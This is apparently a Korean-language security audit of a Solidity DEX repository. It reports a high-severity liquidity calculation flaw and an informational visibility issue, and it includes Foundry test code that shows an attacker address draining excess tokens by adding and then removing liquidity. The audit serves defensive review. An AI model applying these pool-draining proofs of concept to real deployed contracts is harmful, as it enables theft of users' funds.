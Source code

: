 # amUxYXR0bw==

## Scope

<table>
  <tr>
    <th>Name</th>
    <td>Dex Security Audit</td>
  </tr>
  <tr>
    <th>Target / Version</th>
    <td>Git Repository (<a href="https://bit.ly/3ATqcYt" target="_blank">DEX_solidity</a>): commit <mark>a5981c8297cdee9ab8aae232a32743319445efe5</mark> (<mark>main</mark> branch)</td>
  </tr>
  <tr>
    <th>Application Type</th>
    <td>Smart contracts</td>
  </tr>
  <tr>
    <th>Lang. / Platforms</th>
    <td>Smart contracts [Solidity]</td>
  </tr>
</table>

## Findings

### #1 `001` The overall calculation of metrics for the CPMM DEX is incorrect

|ID|Summary|Severity|
|:---:|-------|:---:|
|001|*CPMM DEX* 로서의 전반적인 Calculation 오류|High|

#### Description

일반적인 *DEX*를 구현 할 때, *Stable Coin*의 경우 *CSMM*, 기타 일반 토큰의 경우 *CPMM* 방식으로 구현하게 되는데, 이를 위한 *Calculation* 과정이 잘못 구현되어 풀 내 자산 탈취가 가능함. 가령, `addLiquidity()` 함수 내에서, *Pool* 내 유동성이 존재하지 않을 때는, 두 자산의 각각의 초기 예치자산 수량 곱의 제곱근으로 LP 토큰의 유동성이 계산되고, 이후 추가적인 유동성이 공급될 때는 별도의 계산으로 처리되는 데, 이 때의 계산이 적절하지 않음. 이에, 아래와 같이 공격자가 유동성 예치 후에 즉시 예치 해제시, 자신이 예치한 유동성보다 기하급수적으로 많은 토큰을 돌려 받음.

```solidity
function testAddLiquidityAndThenRemoveLiquidity() external {
    uint256 lpReturn = dex.addLiquidity(1000 ether, 2000 ether, 0);
    emit log_named_uint("lpReturn", lpReturn); // lpReturn: 1414213562373095048801

    // Assume that Address 1 belongs to the attacker.
    vm.prank(address(1));
    uint256 lpReturnByAddressOne = dex.addLiquidity(99 ether, 200 ether, 0);
    emit log_named_uint("lpReturnByAddressOne", lpReturnByAddressOne); // lpReturnByAddressOne: 140007142674936409831

    vm.prank(address(1));
    (uint256 xReceived, uint256 yReceived) = dex.removeLiquidity(140007142674936409831, 0, 0);
    emit log_named_uint("xRecieved", xReceived); // xRecieved: 98999999999999999999
    emit log_named_uint("yReceived", yReceived); // yReceived: 198180163785259326660
}
```

또, 유동성 공급이 아래와 같이 기존 *Pool* 의 자산 비율과 관계없이 이루어질 수 있음

```solidity
function testArbitaryAddLiquidity() external {
    uint256 lpReturn = dex.addLiquidity(1000 ether, 2000 ether, 0);
    emit log_named_uint("lpReturn", lpReturn); // lpReturn: 1414213562373095048801

    vm.prank(address(1));
    // arbitary value 12312312312313213123123 ether and 1 ether is provided to pool.
    uint256 lpReturnByAddressOne = dex.addLiquidity(12312312312313213123123 ether, 1 ether, 0);
    emit log_named_uint("lpReturnByAddressOne", lpReturnByAddressOne); // Liquidity Providing Succeed Here, lpReturnByAddressOne: 707106781186547524
}
```

#### Impact

**High**

공격자가 *Pool* 내 자산을 탈취할 수 있음.

#### Recommendation

*CPMM DEX* 구현 간에 `K`(*Constant Value*) 값의 도입 등, 전반적인 *Pool* 내 자산 비율 *Calculation* 정교화 및 고도화 요망.

### #2 `002` The visibility of `swapXtoY()` and `swapYtoX()` is set to `public`

|ID|Summary|Severity|
|:---:|-------|:---:|
|002|`swapXtoY()` 및 `swapYtoX()` 함수의 *access modifier*가 `public` 으로 설정 됨|Informational|

#### Description

`swapXtoY()` 및 `swapYtoX()` 함수의 *access modifier*가 `public` 으로 설정되어, 악의적인 이용자가 이를 직접 호출할 경우, `swap()` 함수를 통해 호출했을 경우와 같이 `swap()` 함수 내부의 `require(_amountX == 0 || _amountY == 0, "Only one token can be swapped at a time");`를 통해 *Pool* 내의 두 자산 모두 `0`의 값으로 호출 시도하는 것을 막아주지 않음. *Gas Cost*가 상대적으로 싼 EVM 네트워크에 해당 컨트랙트가 배포되었을 경우, 악의적으로 두 함수를 직접 반복적으로 호출하여 해당 컨트랙트 및 네트워크에 혼잡을 야기할 수 있음. 또, 이는 비즈니스 로직의 불필요한 노출임.

#### Impact

**Informational**

컨트랙트의 혼잡 야기 및 비즈니스 로직의 불필요한 노출.

#### Recommendation

`swapXtoY()` 및 `swapYtoX()` 함수의 *access modifier*를 `internal` 등으로 개선 요망.
